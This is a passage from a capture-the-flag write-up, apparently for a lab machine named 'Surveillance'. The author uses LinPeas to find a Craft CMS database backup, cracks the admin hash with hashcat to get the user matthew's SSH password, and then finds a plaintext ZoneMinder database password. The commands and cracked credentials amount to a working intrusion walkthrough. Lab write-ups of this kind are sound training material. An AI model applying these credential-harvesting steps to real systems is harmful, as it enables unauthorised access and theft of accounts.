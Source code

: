 There is also a username `matthew` in `/etc/passwd`.

I run `john` against the hash, but it's a computationally intension hashing algorithm and makes very slow progress.

I run LinPeas on the target and it uncovers the following SQL backup:

```text
-rw-r--r-- 1 root root 19918 Oct 17 20:33 /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

I unzip the backup and grep for `admin@`, and that reveals an older hash in a format that's much faster to crack:

```console
$ hashcat -a0 ./hash2 ~/rockyou.txt -m1400
hashcat (v6.2.6) starting
[...]
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```

And that gets us into the user account:

```console
$ ssh matthew@$t
matthew@10.10.11.245's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)
[...]

Last login: Tue Dec  5 12:43:54 2023 from 10.10.14.40
matthew@surveillance:~$ cat user.txt
21ade4[...]
```

## PE

Running `LinPeas` again as user `matthew` gives us new credentials, this time for ZoneMinder's database:

```console
╔══════════╣ Analyzing Backup Manager Files (limit 70)
-rw-r--r-- 1 root zoneminder 5265 Nov 18  2022 /usr/share/zoneminder/www/ajax/modals/storage.php
-rw-r--r-- 1 root zoneminder 1249 Nov 18  2022 /usr/share/zoneminder/www/includes/actions/storage.php

-rw-r--r-- 1 root zoneminder 3503 Oct 17 11:32 /usr/share/zoneminder/www/api/app/Config/database.php
                'password' => ZM_DB_PASS,
                'database' => ZM_DB_NAME,
                'host' => 'localhost',
                'password' => 'ZoneMinderPassword2023',
                'database' => 'zm',
                                $this->default['host'] = $array[0];
                        $this->default['host'] = ZM_DB_HOST;
```
